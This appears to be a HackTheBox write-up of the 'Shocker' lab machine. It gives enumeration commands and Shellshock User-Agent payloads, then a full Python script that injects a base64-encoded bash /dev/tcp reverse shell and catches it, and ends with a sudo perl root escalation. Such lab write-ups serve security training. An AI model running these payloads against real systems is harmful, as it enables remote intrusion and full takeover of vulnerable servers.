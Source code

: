 ```yaml
---
title: "HackTheBox - Shocker"
categories: [HackTheBox, Easy]
tags: [Linux,Easy,Web,OSCP]
mermaid: true
image: https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-11-HackTheBox-Shocker/2021-12-11-HackTheBox-Shocker%2006:30:20.png
---
```



Shocker was a really easy box from hackthebox. We have here the common vulnerability called ShellShock, when we can execute arbitrary code on the remote server using the User-Agent string.

The privilege escalation was with sudo in the perl binary.

The exploit for this box is on the body of the post. Hope you enjoy!

# Diagram

```mermaid
graph TD
    A[Enumeration] -->|Nmap| B(Port 80)
    B --> C[Gobuster]
    C --> |Gobuster| D[/cgi-bin/user.sh/]
    D --> ShellShock --> E[RCE]
    E --> |Script Python| F[Shell Shell]
    F --> G[Root]
```

# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 10.10.10.56
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-11-HackTheBox-Shocker/2021-12-11-HackTheBox-Shocker%2006:31:39.png)

## Port 80

We try to open it on the browser

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-11-HackTheBox-Shocker/2021-12-11-HackTheBox-Shocker%2006:31:28.png)


### Gobuster

Let's start crafting a little more on the box to see if we can enum more things do explore

```sh
gobuster dir -u http://10.10.10.56 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```

We found a bunch of directories in it. Fine.

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-11-HackTheBox-Shocker/2021-12-11-HackTheBox-Shocker%2006:34:31.png)

### /cgi-bin/

We found a interesting page called cgi-bin

Based on the name of the box, we could presume that this box is vulnerable to ShellShock

We run gobuster again on this page, with a litlle more extensions

```sh
gobuster dir -u http://10.10.10.56/cgi-bin/ -w list.txt -x php,html,sh,pl,py
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-11-HackTheBox-Shocker/2021-12-11-HackTheBox-Shocker%2006:44:50.png)

We found an interesting file, called `user.sh`

If we try to open it on the browser, it's callable to download

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-11-HackTheBox-Shocker/2021-12-11-HackTheBox-Shocker%2006:45:41.png)

If we look at BurpSuite, we see that the optput of the file is the `uptime` command

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-11-HackTheBox-Shocker/2021-12-11-HackTheBox-Shocker%2006:47:32.png)

And we see that the `Content-Type: text/x-sh` so the browser does not know what to do with this kind of file!

## ShellShock

Once we already know that this is probably vulnerable to shellshock, we could try to exploit it, manually. This vulnerability allow an attacker to execute commands in places where it should only be doing something safe like defining an environment variable

We can see the detailed explanation of this vulnerabilty on [this](https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-shocker/) website.

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-11-HackTheBox-Shocker/2021-12-11-HackTheBox-Shocker%2006:51:19.png)

Because the UA string is a common target, we could try adding the POC there:

```
env x='() { :;}; echo vulnerable' bash -c "echo test"
```

And here we see that we can execute commands in it

```sh
User-Agent: () { :;}; echo; /bin/echo test
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-11-HackTheBox-Shocker/2021-12-11-HackTheBox-Shocker%2006:53:51.png)

We can found that it's vulnerable to shellshock with nmap also

```sh
nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/user.sh 10.10.10.56
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-11-HackTheBox-Shocker/2021-12-11-HackTheBox-Shocker%2006:54:47.png)

Now we can procced to get a reverse shell in it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-11-HackTheBox-Shocker/2021-12-11-HackTheBox-Shocker%2006:57:49.png)

And in an easier way

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-11-HackTheBox-Shocker/2021-12-11-HackTheBox-Shocker%2007:00:03.png)

Now let's easily automate it

# Auto Reverse Shell

We'll use our skeleton

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

Here it is

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-11-HackTheBox-Shocker/2021-12-11-HackTheBox-Shocker%2007:15:27.png)

auto_shocker.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto Reverse Shell Shocker - ShellShock - HackTheBox

import argparse
import requests
import sys
import socket, telnetlib
from threading import Thread
import base64

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Base64 encode things
def b64e(s):
    return base64.b64encode(s.encode()).decode()

# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# Get the reverse shell
def GetReverseShell(rhost,lhost,lport):
    print("[+] Let's get the reverse shell !! [+]")
    payload = "bash -i >& /dev/tcp/%s/%s 0>&1" %(lhost,lport)
    payload_read = str(b64e(payload))
    url = "http://%s:80/cgi-bin/user.sh" %rhost
    headers = {"User-Agent": "() { :;}; echo; /bin/echo %s | /usr/bin/base64 -d | /bin/bash" %payload_read}
    r.get(url, headers=headers, proxies=proxies)
    
def main():
    # Parse Arguments
    parser = argparse.ArgumentParser(description='HackTheBox ShellShock AutoShell - 0x4rt3mis')
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localip', help='Local ip address or hostname', required=True)
    parser.add_argument('-lp', '--localport', help='Local port to receive the shell', required=True)
    
    args = parser.parse_args()
    
    rhost = args.target
    lhost = args.localip
    lport = args.localport

    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Get the reverse shell
    GetReverseShell(rhost,lhost,lport)

if __name__ == '__main__':
    main()
```

Ok, now let's get root.

# Shelly -> Root

With the command `sudo -l` we see that we can execute `perl` as root

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-11-HackTheBox-Shocker/2021-12-11-HackTheBox-Shocker%2007:16:28.png)

So, with the help of [GTFobin](https://gtfobins.github.io/gtfobins/perl/) we become root

```sh
sudo perl -e 'exec "/bin/sh";'
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-11-HackTheBox-Shocker/2021-12-11-HackTheBox-Shocker%2007:17:12.png)